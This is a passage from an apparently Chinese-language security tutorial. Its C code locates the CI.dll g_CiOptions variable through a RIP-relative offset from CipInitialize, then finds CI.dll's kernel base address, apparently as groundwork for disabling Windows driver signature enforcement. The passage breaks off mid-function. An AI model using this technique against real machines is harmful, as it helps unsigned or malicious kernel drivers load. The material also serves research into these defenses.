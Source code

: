 ```plain
ULONG gOption_Value = (*(DWORD*)(CipInitialize + 0x1c)); //获取偏移
    ULONG64 gOption_NextLine = CipInitialize + 0x1c + 5; ////获取下一行
    DWORD64 g_op = (gOption_NextLine & ~(ULONGLONG)0xFFFFFFFF) + ((gOption_NextLine + gOption_Value) & (ULONGLONG)0xFFFFFFFF);
    printf("g_op = %p \r\n",g_op);
```

[![](assets/1699005703-281a3ba067f19a5e4af066c2b207132e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103150934-f0fe45ee-7a17-1.png)

这样就能获取到R3下的g\_option的地址，但这并不是一个可用的地址。还需要计算出R0中的地址，首先获取R0中的CI模块地址：

```plain
DWORD64 GetCiBaseAdress() {

    HMODULE hModule =  LoadLibraryA("ntdll.dll");
    Fun_NtQuerySystemInformation NtQuerySystemInformation = (Fun_NtQuerySystemInformation)GetProcAddress(hModule, "NtQuerySystemInformation");

    DWORD bufferSize = 0x1024;
    PVOID buffer = malloc(0x1024);
    NTSTATUS ntStatus = NtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)11,buffer, bufferSize,&bufferSize);

    if (ntStatus == 0xC0000004L) {
        free(buffer);
        buffer = malloc((SIZE_T)bufferSize);

        ntStatus = NtQuerySystemInformation(
            (SYSTEM_INFORMATION_CLASS)11,
            buffer,
            bufferSize,
            &bufferSize);
    }

    PRTL_PROCESS_MODULES pvModules = (PRTL_PROCESS_MODULES)buffer;

    for (size_t i = 0; i < pvModules->NumberOfModules; i++)
    {
        if (strstr( (char*)pvModules->Modules[i].FullPathName,"CI.dll") != NULL)
        {
```